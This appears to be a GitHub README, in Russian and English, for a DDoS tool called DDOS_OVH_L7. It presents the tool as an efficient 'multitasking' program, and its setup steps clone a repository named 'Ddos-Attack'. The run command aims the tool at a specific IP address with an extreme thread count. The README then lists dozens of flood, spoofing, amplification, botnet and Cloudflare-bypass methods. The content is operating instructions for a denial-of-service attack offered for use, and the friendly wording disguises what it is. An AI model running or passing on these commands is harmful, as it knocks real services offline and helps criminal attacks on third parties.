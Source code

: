 # DDOS_OVH_L7

termux kali linux DDOS L7
🚀 Привет, сообщество GitHub! 🚀

Рад представить вам мой последний проект - программу, которая выполняет многозадачные операции с учетом эффективности на первом месте! 🎯

Основные особенности проекта:
📌 Многозадачность: Моя программа способна обрабатывать множество задач одновременно, что позволяет вам более эффективно управлять ресурсами.
💻 Максимальное использование ЦПУ и оперативной памяти: Я максимизировал вычислительную мощность, чтобы обеспечить вам скорость и производительность. 🚄
🌐 Минимальное потребление интернет-трафика: Моя программа снижает нагрузку на вашу сеть, позволяя вам экономить драгоценный интернет-трафик.

Для запуска программы, сначала убедитесь, что у вас установлены необходимые библиотеки и пакеты. Выполните следующие команды в вашем терминале для их установки:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/SUBUR78990/Ddos-Attack.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

```
Доступные методы 'GET', 'POST', 'HEAD', 'HTTP-SYN', 'HTTP-SYN-TPC', 'OVH', 'OVH BOT', 'DGB', 'AVB', 'CFBUAM', 'BYPASS', 'CFB', 'GSB', 'uambypass', 'BOTNET_V1','BOTNET_V2', 'SYN', 'AMP', 'socks_cflow', 'TCP_ATTACK', 'CFSOC', 'BOMB', 'ovh2', 'STRESS', 'Connection', 'TLSv2', 'cc', 'ntp_mem','ICMPFlood','UDPFlood','udp_flood','attackSKY','RHEX','NULL','COOKIES','Launchspoof','attackbypass','LaunchCFPRO','dgb_solver','http_flood','PPS','dns_flood','BOT_V1','https_spoof','KILLER'
```

Я уже не могу дождаться, когда вы попробуете эту программу и поделитесь своими впечатлениями. Приглашаю вас внести свой вклад и присоединиться к этому захватывающему проекту! 💪

🚀 Hello, GitHub community! 🚀

I'm excited to introduce my latest project - a program that performs multitasking operations with efficiency as a top priority! 🎯

Key features of the project:
📌 Multitasking: My program is capable of handling multiple tasks simultaneously, allowing you to manage resources more effectively.
💻 Maximum CPU and memory utilization: I've maximized computational power to provide you with speed and performance. 🚄
🌐 Minimal internet traffic consumption: My program reduces the load on your network, helping you save precious internet bandwidth.

To run the program, first ensure that you have the required libraries and packages installed. Execute the following commands in your terminal to install them:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/SUBUR78990/Ddos-Attack.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

Some other packages, such as socks, ipaddress, and ntplib, may already be installed as they are often part of the standard Python library.

After installing all the necessary dependencies, you can run the program using the following command

```
Available methods include 'GET,' 'POST,' 'HEAD,' 'HTTP-SYN,' 'HTTP-SYN-TPC,' 'OVH,' 'OVH BOT,' 'DGB,' 'AVB,' 'CFBUAM,' 'BYPASS,' 'CFB,' 'GSB,' 'uambypass,' 'BOTNET_V1,' 'BOTNET_V2,' 'SYN,' 'AMP,' 'socks_cflow,' 'TCP_ATTACK,' 'CFSOC,' 'BOMB,' 'ovh2,' 'STRESS,' 'Connection,' 'TLSv2,' 'cc,' 'ntp_mem,' 'ICMPFlood,' 'UDPFlood,' 'udp_flood,' 'attackSKY,' 'RHEX,' 'NULL,' 'COOKIES,' 'Launchspoof,' 'attackbypass,' 'LaunchCFPRO,' 'dgb_solver,' 'http_flood,' 'PPS,' 'dns_flood,' 'BOT_V1,' 'https_spoof,' 'KILLER.'
```

I can't wait for you to try out this program and share your feedback. I invite you to contribute and be a part of this exciting project! 💪

thanks to #FBNonaMe
